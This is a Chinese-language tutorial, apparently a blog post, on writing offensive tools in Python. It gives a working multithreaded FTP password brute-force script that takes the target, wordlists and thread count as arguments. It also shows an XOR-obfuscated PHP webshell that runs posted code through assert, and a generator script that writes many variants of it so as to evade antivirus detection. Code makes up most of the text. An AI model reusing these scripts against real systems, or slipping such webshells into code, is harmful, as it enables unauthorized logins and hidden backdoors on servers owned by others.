

# Python多线程开发



## 利用FTP模块实现多线程协议爆破脚本

先模拟使用Python登录。

```python
import ftplib

# 初始化FTP对象
ftp = ftplib.FTP()
# 尝试建立连接
ftp.connect("192.168.132.129",21)
# 尝试登陆
ftp.login("test","123456")
# 获取ftp文件列表
list = ftp.retrlines("list")
print(list)
```

查看日志（发现用户登陆）


模拟爆破的必备条件

1. IP地址
2. .端口号
3. 用户名
4. 密码字典

设置命令行参数，并且验证。

```python
import ftplib

def ftp_brute():
    ftp = ftplib.FTP()
    ftp.connect("192.168.132.129",21)
    for username in open("ftp-user.txt"):
        for password in open("ftp-pass.txt"):
            username = username.replace("/n","")
            password = password.replace("/n","")
            try:
                ftp.login(username, password)
                print(username + "," + password + "=success")
                ftp.close()
            except Exception as e:
                pass
if __name__ == '__main__':
    ftp_brute()
```

有时候，由于字典数据大，还有延时，速度特别的慢，因此需要使用到多线程去优化，需要用到`queue`模块

重点是：put和get，要先put，才能get

为什么要通过队列来进行文件的读取和取出？

线程的生产和消费必须平衡，但是多线程生产的数据快于消费者，因此需要一个缓冲区来存储数据，因此用到了队列。

通过队列来获取数据：

1. 主函数遍历用户名和密码的字典，将数据整合到一起put进队列
2. 函数通过`while`循环（这里可以用`queue.qsize()`来设置开关跳出循环）遍历队列将队列的数据取出，再进行拆分（通过`split`函数）为两个字符串的列表（队列里面储存的是字符串）。 

```python
import ftplib
import sys
import queue
import threading
import time

def ftp_brute():
    # 初始化FTP对象
    ftp = ftplib.FTP()
    # 尝试建立连接
    ftp.connect("192.168.132.129",21)
    # 消息队列不为空，存在数据
    while not q.empty():
        dict = q.get()
        # 注意拆分之后是一个数组的形式
        dict = dict.split(",")
        print(dict)
        username = dict[0]
        password = dict[1]
        print("尝试链接" + username + "," + password)
        time.sleep(0.02)
        # 尝试登陆
        try:
            ftp.login(username, password)
            ftp.close()
            print(username + "," + password + "=" + "login success")
            exit(0)
        except Exception as e:
            pass


if __name__ == '__main__':
    # 创建一个消息队列
    q = queue.Queue()
    for username in open("ftp-user.txt"):
        for password in open("ftp-pass.txt"):
            username = username.replace("/n", "")
            password = password.replace("/n", "")
            dict = username + ',' + password
            # 将获取到的用户名和密码的数据发送到消息队列里面去
            q.put(dict)
    ftp_brute()
```

设置多线程（这里的多线程是加快了消费者的速度，生产者的速度并没有加快，这也是为什么要将生产的数据放入队列中的原因）

配置命令行传参模式，然后在命令行里面执行。

```python
import ftplib
import sys
import queue
import threading
import time

def ftp_brute(ip, port):
    # 初始化FTP对象
    ftp = ftplib.FTP()
    # 尝试建立连接
    ftp.connect(ip,port)
    # 消息队列不为空，存在数据
    while not q.empty():
        dict = q.get()
        # 注意拆分之后是一个数组的形式
        dict = dict.split(",")
        # print(dict)
        username = dict[0]
        password = dict[1]
        # print("尝试链接" + username + "," + password)
        time.sleep(0.02)
        # 尝试登陆
        try:
            ftp.login(username, password)
            ftp.close()
            print(username + "," + password + "=" + "login success")
            exit(0)
        except Exception as e:
            pass

if __name__ == '__main__':
    ip = sys.argv[1] # ip地址
    port = sys.argv[2] # 端口
    username_file = sys.argv[3] # username dict
    password_file = sys.argv[4] # password dict
    threading_num = sys.argv[5] # threading_num

    # 创建一个消息队列
    q = queue.Queue()
    for username in open(username_file):
        for password in open(password_file):
            username = username.replace("/n", "")
            password = password.replace("/n", "")
            dict = username + ',' + password
            # 将获取到的用户名和密码的数据发送到消息队列里面去
            q.put(dict)
    # 创建多线程，x为线程数目，target为调用的方法，只有函数名，没有()
    for x in range(10):
        # 初始化多线程的配置,传递的实参为队列的引用（以元组的形式传参）
        t = threading.Thread(target=ftp_brute,args=(ip, int(port)))
        # 开始多线程
        t.start()
```

## Fuzz实现免杀异或shell脚本

PHP异或流程：

在PHP中，两个变量的值进行异或时，会先将两个变量的值转换为ASCII，再将ASCII转换为二进制，对两对二进制数据进行异或，异或完，再将结果转为ASCII，最后将ASCII转为字符串，即为最终结果。

异或运算法则：

0&0=0；1&1=0；0&1=1；1&0=1，两个二进制数相同时，异或为0，不同为1

根据异或的原理，编写**无字符特征马**。

命令执行函数：eval不能拆分，assert函数可以拆分。

```php
<?php $a=("!"^"@").'ssert';$a($_POST[x]);?> 
```


尝试连接。


虽然安全狗没有检查出来后门，但是在阿里云上检测出来了。


原理：

`!`的`ascii`对应十进制`33`，二进制：`00100001`，`@`对应十进制`64`，二进制：`01000000`。

两个二进制异或为：`01100001`，对应十进制为：`97`，十进制对应的ASCII字符为：`a `。

开发思路：

通过异或运算，分别批量替换a,s,s,e,r,t，进而构造命令执行函数。

1. for循环0-127（ascii范围为[0.127]）
2. 在循环内将ascii值通过chr转换为字符串进行异或
3. 判断异或后的值是否==a，如果等于则成功
4. 扩大范围，对assert的6个字符串一起进行异或

```python
import requests

for i in range(0,128):
    for j in range(0,128):
        if i^j == 97:
            code="<?php $a="+'('+"'"+chr(i)+"'"+'^'+"'"+chr(j)+"'"+')'+'.'+"'ssert'"+';$a($_POST[x]);?>'
            name = str(i)+"ada"+str(j)+'.php'
            path_name = "./ada/"+name
            with open(path_name,"a+",encoding="UTF-8") as f:
                f.write(code)
                f.close()
```

如果测试连接的话，可以写脚本进行连接，因为生成的文件名都是有规律的，所以我们可以通过`requests`模块，写类似于爬虫的连接。

